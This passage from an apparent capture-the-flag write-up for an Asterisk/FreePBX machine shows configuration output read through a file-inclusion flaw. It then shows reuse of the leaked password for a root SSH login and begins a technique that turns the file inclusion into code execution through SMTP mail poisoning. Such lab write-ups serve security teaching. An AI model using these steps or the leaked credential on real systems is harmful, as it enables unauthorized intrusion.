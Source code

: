 ```

MOHDIR=mohmp3

AMPMODULEXML=http://mirror.freepbx.org/
AMPMODULESVN=http://mirror.freepbx.org/modules/
AMPDBNAME=asterisk

ASTETCDIR=/etc/asterisk
ASTMODDIR=/usr/lib/asterisk/modules
ASTVARLIBDIR=/var/lib/asterisk
ASTAGIDIR=/var/lib/asterisk/agi-bin
ASTSPOOLDIR=/var/spool/asterisk
ASTRUNDIR=/var/run/asterisk
ASTLOGDIR=/var/log/asteriskSorry! Attempt to access restricted file.
```
Here, we can see repeatedly more than once the password ```jEhdIekWmdjE```, we can test if this box is affected from a password reuse vulnerability.  
We can try to ssh as root into the box using the the discovered password, and as we can se we do get a prompt  

### Method 2 - php/webapps/37637.pl getting RCE from LFI using SMTP
Always by using 37637.pl, we can get an RCE from a LFI.  
From the initial nmap scan, we can see that port 25 (smtp) is opened.  
We know that using smtp we can send email connecting to port 25, when we send emails, a file is written under /var/mail/%RCPT_USER%.  
Now we need to check what is the user that is executing the webserver, so that then, we can send an email with a payload to that user, read the email using LFI and get a shell.  
To check what is the webserver user we can use the LFI vulnerability and request ```/proc/self/status```, and we'll get the following:
```
Name:	httpd
State:	R (running)
SleepAVG:	89%
Tgid:	3589
Pid:	3589
PPid:	3488
TracerPid:	0
Uid:	100	100	100	100
Gid:	101	101	101	101
FDSize:	32
Groups:	101
VmPeak:	   35900 kB
VmSize:	   35888 kB
VmLck:	       0 kB
VmHWM:	   16428 kB
VmRSS:	   16428 kB
VmData:	   12336 kB
VmStk:	      88 kB
VmExe:	     300 kB
VmLib:	   20928 kB
VmPTE:	      72 kB
StaBrk:	0919c000 kB
Brk:	09bcc000 kB
StaStk:	bfbb2b20 kB
ExecLim:	08497000
Threads:	1
SigQ:	0/16384
SigPnd:	0000000000000000
ShdPnd:	0000000000000000
SigBlk:	0000000000000000
SigIgn:	0000000001001000
SigCgt:	000000018c00466b
```